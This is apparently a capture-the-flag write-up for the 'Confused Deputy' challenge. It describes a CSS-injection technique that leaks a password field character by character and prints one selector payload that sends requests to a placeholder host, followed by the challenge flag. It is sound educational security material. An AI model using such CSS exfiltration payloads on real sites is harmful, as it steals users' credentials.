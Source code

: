 # The Confused Deputy

Source: [index.html](./index.html)

By reading the source, we se that we can inject arbitary values into a `<style>` element. However, the angle brackets are filtered out. This means that we have to use CSS injection to read the `password` field. By using CSS attribute selectors, we can send http requests to our server when the password matches a certain prefix. For instance, `input[value^='c']{{background-image:url(http://example.com/c)}}` will send a request if the password field starts with "c". We can extract the full password using a technique similar to blind SQL injection.

Script: [exploit.py](./exploit.py)

Flag: csictf{cssxss}
